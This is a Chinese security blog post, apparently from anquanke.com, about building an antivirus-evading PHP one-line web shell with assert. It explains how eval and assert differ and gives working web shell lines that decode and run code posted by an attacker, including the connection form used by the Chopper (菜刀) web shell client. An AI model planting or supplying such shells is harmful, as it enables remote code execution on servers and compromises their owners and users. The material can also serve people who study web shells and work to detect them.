 > 原文链接: https://www.anquanke.com//post/id/85017 


# 【技术分享】assert免杀一句话


                                阅读量   
                                **161030**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



**[![](https://p1.ssl.qhimg.com/t01fafb8b9c4695be2a.jpg)](https://p1.ssl.qhimg.com/t01fafb8b9c4695be2a.jpg)**

****

**作者：**[******3xp10it******](http://bobao.360.cn/member/contribute?uid=2795848922)

**预估稿费：400RMB（不服你也来投稿啊！）**

**投稿方式：发送邮件至**[**linwei#360.cn******](mailto:linwei@360.cn)**，或登陆**[**网页版**](http://bobao.360.cn/contribute/index)**在线投稿**



**0x00 eval和assert的区别**

[http://www.vuln.cn/8395](http://www.vuln.cn/8395)

[http://www.php.net/manual/zh/function.eval.php](http://www.php.net/manual/zh/function.eval.php)

[http://php.net/manual/zh/functions.variable-functions.php](http://php.net/manual/zh/functions.variable-functions.php)

1)assert是函数,eval不是函数,是语言构造器

2)eval($a)中$a只能是字符串,assert($a)中$a可以是php代码,也可以是php代码的字符串,assert($a)的$a如果是字符串形式不能有2个以上的分号,如果有2个以上的分号只执行到第一个,使用assert来执行多条php语句可借助eval来实现

eg.

```
assert(eval("echo 1;echo 2;"));
```

[注意上面这句如果是assert(eval("echo 1;echo 2"));这样写是不会执行echo 1也不会执行echo 2的,因为eval使用的字符串要是有分号的php语句]

eg.

```
assert(eval(base64_decode($_POST[cmd])));
```

菜刀的连接方式为:

```
assert(eval(base64_decode($_POST[z0])));
```
